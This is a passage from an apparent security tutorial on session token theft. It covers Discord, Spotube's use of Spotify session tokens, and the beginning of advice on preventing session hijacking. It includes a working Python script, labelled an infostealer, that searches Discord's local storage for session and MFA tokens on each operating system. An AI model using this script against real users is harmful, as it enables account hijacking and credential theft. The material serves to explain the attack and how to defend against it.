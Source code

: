 ### Discord Desktop Application

Mostly hackers use automated scripts or programs to steal tokens instead of doing manually. Below script allow users to extract session tokens from Discord desktop client.

```python
def get_token(path):
    if not os.path.exists(path): return

    for file in os.listdir(path):
        if file.endswith(".log") or file.endswith(".ldb")   :
            for line in [x.strip() for x in open(f"{path}\\{file}", errors="ignore").readlines() if x.strip()]:
                for regex in (r"[\w-]{24}\.[\w-]{6}\.[\w-]{25,110}", r"mfa\.[\w-]{80,95}"):
                    for token in re.findall(regex, line):
                        print(token)

get_token(path="~/.config/discord/Local Storage/leveldb")

# Linux: `~/.config/discord/Local Storage/leveldb`
# MacOS: `~/Library/Application Support/discord/Local Storage/leveldb`
# Windows: `%APPDATA%\Discord\Local Storage/leveldb`
```

Run the script:

```bash
python discord_infostealer.py
```

### Spotify: Session Token for Privacy & Security

Spotube is a privacy focused Spotify client which block ads and remove many spotify's restrictions in free plan. But, to load your spotify playlists, liked song, and recommendation. Spotube needs spotify account access. Usually it's done by provide credentials to third-party in this case Spotube. Which is really uncomfortable, because by doing so you're trusting Spotube with your `email` and `password`. So, Instead of that, Spotube asks you to enter *Session Token* instead of spotify credentials this way spotube can fetch your music preferences from spotify without reveling credentials.

> **Note:** This is only true for older versions of Spotube's desktop client, not mobile clients.

## Prevent Session Hijacking

Session hijacking or token stealing is a powerful and stealthy attack. But it require access to the system whether it's physical or remote. At the same, prevention of this attack needs attentions both sides User's side and developer side, more on developer.

### Developer & User's Responsibility

1. Physical Access
    
    * Don't allow anyone access to your hardware, anyone!
        
    * If it's not possible, **logout every time**, when you're done.
        